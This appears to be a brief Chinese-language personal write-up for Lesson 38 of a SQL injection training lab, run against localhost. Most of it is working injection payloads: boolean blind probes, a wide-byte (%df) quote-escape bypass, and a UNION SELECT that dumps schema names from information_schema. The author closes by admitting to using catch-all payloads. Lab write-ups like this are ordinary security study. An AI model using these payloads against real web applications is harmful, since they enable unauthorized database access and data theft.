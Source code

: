 # Lesson-38
```
Bool盲注-,-宽字节绕过
```

盲注证明 : 
```
http://127.0.0.1/Less-38/?id=0%df'|(1)--+
http://127.0.0.1/Less-38/?id=0%df'|(1)--+
```
> 后记 : 
证明盲注
`?id='|'1`
`?id='|'0`

---
明注 : 
```
http://127.0.0.1/Less-38/?id=0%df%27%20union%20select%201,1,1--+
```
还是利用宽字节可以成功绕过
```
http://127.0.0.1/Less-38/?id=0%df%27%20union%20select%201,1,group_concat(schema_name)%20from%20information_schema.schemata--+
```
> 后记 : 
感觉好多题目都被我水过去了 , 好多题目都是通杀的Payload , 没有领会到题目的本意 , 以后一定重新做
